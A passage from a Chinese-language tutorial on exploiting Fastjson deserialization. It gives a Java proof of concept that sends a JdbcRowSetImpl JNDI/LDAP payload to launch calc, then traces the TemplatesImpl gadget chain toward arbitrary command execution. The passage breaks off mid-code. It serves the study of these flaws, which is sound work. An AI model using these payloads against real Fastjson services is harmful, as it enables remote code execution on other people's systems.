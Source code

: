 ```plain
package org.example;

import com.alibaba.fastjson.JSON;

public class calc {
    public static void main(String[] args) {
        // 高版本的JDK，需要设置一下，低版本的可以忽略，参考JNDI注入文章
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        String json = "{\"@type\": \"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\": \"ldap://127.0.0.1:9999/Basic/Command/calc\",\"autoCommit\": false}";
        JSON.parseObject(json);
    }
}
```

![](https://cdn.nlark.com/yuque/0/2025/png/36112066/1747573969114-aa31d4b1-402b-41d3-8feb-ba0d3e9a238d.png)

# <font style="color:rgb(35, 57, 77);">TemplatesImpl</font>
### <font style="color:rgb(35, 57, 77);">限制条件</font>
`<font style="color:rgb(35, 57, 77);background-color:rgb(238, 238, 238);">Feature.SupportNonPublicField</font>`<font style="color:rgb(35, 57, 77);"> 需要开启，因为</font>`<font style="color:rgb(35, 57, 77);background-color:rgb(238, 238, 238);">_bytecodes</font>`<font style="color:rgb(35, 57, 77);"> 和 </font>`<font style="color:rgb(35, 57, 77);background-color:rgb(238, 238, 238);">_outputProperties</font>`<font style="color:rgb(35, 57, 77);"> 两个关键属性是私有的</font>

Fastjson通过`bytecodes`字段传入恶意类，调用`outputProperties`属性的getter方法时，实例化传入的恶意类，调用其构造方法，造成任意命令执行。

调用

TemplatesImpl() -> getOutputProperties() -> newTransformer() -> getTransletInstance() -> defineTransletClasses() -> newInstance()  
 TemplatesImpl()

```plain
public synchronized Properties getOutputProperties() {
    try {
        return newTransformer().getOutputProperties();
    }
    catch (TransformerConfigurationException e) {
        return null;
    }
}
```

`<font style="color:rgb(35, 57, 77);background-color:rgb(238, 238, 238);">newTransformer()</font>`<font style="color:rgb(35, 57, 77);">中会调用</font>`<font style="color:rgb(35, 57, 77);background-color:rgb(238, 238, 238);">getTransletInstance()</font>`<font style="color:rgb(35, 57, 77);"> 方法，继续跟进一下</font>

```plain
public synchronized Transformer newTransformer()
    throws TransformerConfigurationException
{
    TransformerImpl transformer;

    transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
        _indentNumber, _tfactory);

    if (_uriResolver != null) {
        transformer.setURIResolver(_uriResolver);
    }

    if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
        transformer.setSecureProcessing(true);
```